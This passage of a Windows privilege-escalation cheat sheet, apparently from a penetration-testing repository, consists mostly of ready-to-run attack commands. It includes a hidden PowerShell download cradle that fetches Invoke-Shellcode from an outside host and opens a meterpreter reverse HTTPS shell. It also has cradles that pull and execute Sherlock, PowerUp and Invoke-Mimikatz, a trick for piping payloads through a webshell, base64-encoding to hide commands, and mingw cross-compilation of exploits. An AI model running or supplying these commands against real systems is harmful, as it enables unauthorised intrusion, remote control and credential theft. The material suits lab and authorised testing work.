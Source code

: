```cmd
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.." - to find specific KBs
```

Do we want to run Invoke-Shellcode.ps1?
```powershell
Powershell.exe -NoP -NonI -W Hidden -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.22:8000/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost YourIPAddress -Lport 4444 -Force"
```

### Kernel Exploits 

Here we want to run the Sherlock/Watson and PowerUp scripts to check for low hanging fruit and easy wins. The functions we want are Find-AllVulns and Invoke-AllChecks. You can just use the -encodedcommand flag and not deal with these quotes as well.

https://github.com/rasta-mouse/Sherlock

https://github.com/rasta-mouse/Watson

https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

The normal way to run a powershell script using net webclient objects with no modifications.
```powershell
powershell `IEX((new-object net.webclient).downloadstring('http://10.10.14.22:8000/Sherlock.ps1')); Find-AllVulns`
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.39:8000/PowerUp.ps1'); Invoke-AllChecks"
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-Mimikatz.ps1');"
```

If we have a webshell or something non interactive try piping it to powershell and pulling from stdin like so. Thanks to Ippsec for showing this method. 
https://www.youtube.com/watch?v=lP-E5vmZNC0
```powershell
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.22:8000/Sherlock.ps1'); | powershell -noprofile -
```
Sometimes its easier to encode your PS commands into UTF/base64 like so...
```powershell
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-Mimikatz.ps1');" | iconv --to-code UTF-16LE | base64 -w 0
```
Then just run it on your windows shell... 
```powershell
powershell -encodedcommand ADFSDGSDGSDGDSG==
```

Otherwise just upload it somewhere and execute these 
```powershell
powershell -nop -ep bypass
Import-Module C:\Users\740i\Desktop\Sherlock.ps1
Find-AllVulns
```
Compiling all these Windows exploits on Linux can really be a pain in the ass 
```bash
i686-w64-mingw32-gcc exploit.c -o exploit
```
or for 32 bit 
```bash
i686-w64-mingw32-gcc 40564.c -o 40564 -lws2_32 
```
Precompiled windows exploits they seem safe...
